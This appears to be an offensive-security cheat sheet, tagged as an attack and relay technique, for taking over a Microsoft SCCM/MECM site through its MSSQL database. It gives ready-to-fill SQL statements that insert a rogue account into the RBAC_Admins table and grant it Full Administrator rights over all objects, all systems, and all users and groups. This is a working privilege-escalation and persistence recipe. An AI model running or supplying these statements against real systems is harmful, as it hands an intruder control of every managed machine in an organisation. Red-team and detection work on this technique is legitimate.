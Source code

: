 # sccm-mssql-cmd 

% sccm, mecm, mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/sql  #port/1433 #cat/ATTACK

#plateform/linux  #target/remote #cat/ATTACK/RELAY

## create an admin account
```sql
INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES
(<SID_in_hex_format>,'<domain_fqdn\user>',0,0,'','','','','<sccm_site_code>');
```

## get AdminID
```sql
SELECT AdminID,LogonName FROM RBAC_Admins;
```

## create permission (1)
Full Administrator role for the "All Objects" scope
```sql
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (<sccm_admin_id>,'SMS0001R','SMS00ALL','29');
```

## create permission (2)
Full Administrator role for the "All Systems" scope
```sql
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (<sccm_admin_id>,'SMS0001R','SMS00001','1');
```

## create permission (3)
Full Administrator role for the "All Users and User Groups" scope
```sql
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (<sccm_admin_id>,'SMS0001R','SMS00004','1');
```